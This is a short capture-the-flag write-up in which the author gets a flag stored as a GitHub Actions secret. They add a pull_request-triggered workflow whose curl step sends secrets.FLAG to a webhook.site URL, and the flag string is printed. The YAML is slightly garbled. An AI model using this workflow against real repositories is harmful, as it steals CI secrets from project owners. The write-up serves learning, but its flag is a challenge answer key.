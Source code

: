 # Comments
> You must solve the first challenge to get the answer, all you need is inside the Loby.

## About the Challenge
We were given a repository whose flags are located in the GitHub workflow

![workflow](images/workflow.png)

## How to Solve?
To get the flag, I created another workflow like this

```yaml
ame: Say Hi

 on: [pull_request]

 jobs:
   build:

     runs-on: ubuntu-latest

     steps:
     - uses: actions/checkout@v2
     - name: Say Hi
       run: |
         curl "https://webhook.site/b7c7b30c-1536-4672-a15c-646bcd1ef28e?username=${{ secrets.FLAG }}"
```

This workflow will send the flag to `webhook.site` using `curl` command, and then create a pull request to trigger the workflow

![flag](images/flag.png)

```
EKO{m0ve_y0uR_b0dy}
```